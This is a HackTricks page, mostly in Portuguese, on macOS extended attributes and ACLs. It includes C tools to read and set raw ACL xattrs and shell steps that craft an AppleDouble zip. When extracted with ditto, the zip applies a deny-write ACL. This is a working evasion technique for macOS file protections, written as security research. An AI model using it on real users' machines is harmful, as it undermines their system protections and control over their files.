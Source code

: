 # macOS xattr-acls extra stuff

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```
<details>

<summary>Código de get_acls</summary>
```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *filepath = argv[1];
acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
if (acl == NULL) {
perror("acl_get_file");
return 1;
}

char *acl_text = acl_to_text(acl, NULL);
if (acl_text == NULL) {
perror("acl_to_text");
acl_free(acl);
return 1;
}

printf("ACL for %s:\n%s\n", filepath, acl_text);

// Convert acl_text to hexadecimal and print it
printf("ACL in hex: ");
for (char *c = acl_text; *c != '\0'; c++) {
printf("\\x%02x", (unsigned char)*c);
}
printf("\n");

acl_free(acl);
acl_free(acl_text);
return 0;
}
```
```markdown
<details>
<summary>MacOS XATTR e ACLs</summary>

O sistema de arquivos do macOS suporta atributos estendidos (XATTRs) e listas de controle de acesso (ACLs) que podem ser usados para aumentar a segurança e controlar o acesso a arquivos e diretórios.

### Atributos Estendidos (XATTRs)

Os atributos estendidos permitem que você anexe metadados a arquivos. Isso pode ser útil para armazenar informações adicionais que não se encaixam nos atributos padrão do sistema de arquivos.

### Listas de Controle de Acesso (ACLs)

As ACLs fornecem um controle de acesso mais granular em comparação com as permissões tradicionais do Unix. Com as ACLs, você pode definir permissões específicas para usuários e grupos individuais.

### Usos Comuns

- **Segurança de Arquivos**: Use XATTRs para marcar arquivos sensíveis e ACLs para restringir o acesso a eles.
- **Auditoria**: Armazene informações de auditoria em XATTRs para rastrear alterações em arquivos críticos.

### Comandos Úteis

- Para visualizar atributos estendidos:
  ```bash
  xattr -l <arquivo>
  ```

- Para adicionar um atributo:
  ```bash
  xattr -w <atributo> <valor> <arquivo>
  ```

- Para visualizar ACLs:
  ```bash
  ls -le <arquivo>
  ```

- Para adicionar uma ACL:
  ```bash
  chmod +a "<usuário> allow <permissão>" <arquivo>
  ```

Essas técnicas podem ser usadas para melhorar a segurança do seu sistema e proteger dados sensíveis contra acesso não autorizado.

</details>
```
```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```
<details>

<summary>Código de set_xattr</summary>
```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>


void print_xattrs(const char *filepath) {
ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
if (buflen < 0) {
perror("listxattr");
return;
}

char *buf = malloc(buflen);
if (buf == NULL) {
perror("malloc");
return;
}

buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
if (buflen < 0) {
perror("listxattr");
free(buf);
return;
}

printf("All current extended attributes for %s:\n", filepath);
for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
printf("%s: ", name);
ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
if (valuelen < 0) {
perror("getxattr");
continue;
}

char *value = malloc(valuelen + 1);
if (value == NULL) {
perror("malloc");
continue;
}

valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
if (valuelen < 0) {
perror("getxattr");
free(value);
continue;
}

value[valuelen] = '\0';  // Null-terminate the value
printf("%s\n", value);
free(value);
}

free(buf);
}


int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
const char *filepath = argv[1];

int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
if (result == 0) {
printf("Extended attribute set successfully.\n\n");
} else {
perror("setxattr");
return 1;
}

print_xattrs(filepath);

return 0;
}
```
</details>

{% code overflow="wrap" %}
```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
{% endcode %}
```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
